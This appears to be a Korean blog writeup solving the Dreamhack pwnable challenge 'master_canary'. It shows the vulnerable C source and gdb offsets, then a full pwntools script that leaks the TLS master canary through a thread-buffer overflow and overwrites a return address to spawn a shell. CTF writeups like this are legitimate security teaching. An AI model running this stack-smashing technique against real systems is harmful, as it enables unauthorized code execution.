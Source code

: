 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN master_canary"
excerpt: "드림핵 포너블 master_canary 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-03-12 18:00
---
```


이번 문제는 드림핵 master_canary 문제다. 문제 제목 그대로 master canary를 릭해서 푸는 문제이다.

문제 환경으 ubuntu16:04 버전을 사용한다. 우선 해당 문제의 소스코드를 살펴보자.

```c
// gcc -o master master.c -pthread
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <pthread.h>

char *global_buffer;

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
    system("/bin/sh");
}

void *thread_routine() {
    char buf[256];

    global_buffer = buf;

}
void read_bytes(char *buf, size_t size) {
    size_t sz = 0;
    size_t idx = 0;
    size_t tmp;

    while (sz < size) {
        tmp = read(0, &buf[idx], 1);
        if (tmp != 1) {
            exit(-1);
        }
        idx += 1;
        sz += 1;
    }
    return;
}
int main(int argc, char *argv[]) {
    size_t size;
    pthread_t thread_t;
    size_t idx;
    char leave_comment[32];


    initialize();

    while(1) {
        printf("1. Create thread\n");
        printf("2. Input\n");
        printf("3. Exit\n");
        printf("> ");
        scanf("%d", &idx);

        switch(idx) {
            case 1:
                if (pthread_create(&thread_t, NULL, thread_routine, NULL) < 0)
                {
                    perror("thread create error");
                    exit(0);
                }
                break;
            case 2:
                printf("Size: ");
                scanf("%d", &size);

                printf("Data: ");
                read_bytes(global_buffer, size);

                printf("Data: %s", global_buffer);
                break;
            case 3:
                printf("Leave comment: ");
                read(0, leave_comment, 1024);
                return 0;
            default:
                printf("Nope\n");
                break;
        }
    }
    

    return 0;
}
```

위 코드에서 유심히 봐야 할 부분은 case 1: 부분의 pthread_create 함수이다. thread_routine 함수에서는 size에 대한 검증이 없어 버퍼 오버플로우가 발생한다. 또한 스레드 함수인 thread_routine은 TLS와 인접하게 생성되므로 오버플로우를 통해서 TLS에 있는 마스터 카나리 값을 릭 할수 있는 취약점이 존재한다.


공격 시나리오를 생각해보자

우선 1번 메뉴를 통해 스레드를 생성한다. 여기서 thread_routine 함수의 size 미 검증으로 인한 버퍼 오버플로우 취약점이 발생한다. 함수 내부에서 사용되는 buf변후는 전역 변수인 global_buffer 포인터에 대입된다.

이후 2번 메뉴를 통해서 원하는 크기만큼 global_buffer에 값을 쓴다. 여기서 global_buffer는 스레드 함수에서 사용되어 TLS와 인접하게 생성된다. 따라서 buf에서 master canary까지의 거리를 구해 카나리 값 직전까지 덮으면 master canary의 값을 leak 할수 있다.

그 다음 3번 메뉴를 통해서 스텍 오버플로우를 일으킨다. 이때 2번 메뉴를 통해 leak한 canary를 사용해 리턴 주소를 get_shell() 로 바꾼다.


이 정도면 공격에 성공할 것 같다. 디버깅 하면서 하나씩 살펴보자.

gdb를 통해 확인 해 보면 thread_retine에서의 buf 값은 다음과 같다.
```
0x400a75 <thread_routine+26>    lea    rax, [rbp - 0x110] 
<RAX  0x7ffff77eee40>
```
이후 마스터 카나리의 위치를 계산하고 둘의 차를 구한다.
```
pwndbg> x/x $fs_base+0x28
0x7ffff77ef728: 0x4ba9d200
pwndbg> x/x 0x7ffff77ef728-0x7ffff77eee40
0x8e8:  Cannot access memory at address 0x8e8
```
둘의 차는 0x8e8이다. 다만 카나리 값이 하위 1바이트는 00이기 때문에 이 또한 오버라이트 해야지 printf가 00을 만나지 않고 카나리 값을 전부 leak 할 수 있다.

따라서 2번 메뉴를 통해 0x8e8+1 만큼의 size를 주고 A를 0x8e8+1개 입력해 릭 한다.

이후 main 함수에서 다음과 같은 부분을 살펴보자.
```
0x400c39 <main+308>:   lea    rax,[rbp-0x30]
```
이 부분은 3번 메뉴를 통해 값을 입력 받는 leave_comment 변수의 크기이다 0x30의 크기를 가지고 있으나 1024만큼 입력이 가능해 오버플로우가 발생한다.

따라서 A(40) + canary + B(8) + get_shell() 을 페이로드로 입력하면 공격에 성공한다.



```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

p = remote("host3.dreamhack.games", 10039);
#p = process("./iofile_vtable_check", env={'LD_PRELOAD':'./libc.so.6'})
#p = process("./master_canary")
elf = ELF("./master_canary")
#libc = ELF("./libc.so.6")

master_to_buf = 0x8e9
get_shell = 0x400a4a

p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"2")

p.sendlineafter(b"Size: ", str(master_to_buf))
p.sendlineafter(b"Data: ", b"A"*master_to_buf)

p.recvuntil(b"A"*master_to_buf)
canary = u64(b"\x00"+p.recvn(7))
print(f"canary : {hex(canary)}")

p.sendlineafter(b"> ", b"3")

payload = b"A"*40
payload += p64(canary)
payload += b"B"*8
payload += p64(get_shell)

p.sendlineafter('Leave comment: ', payload)

p.interactive()
```
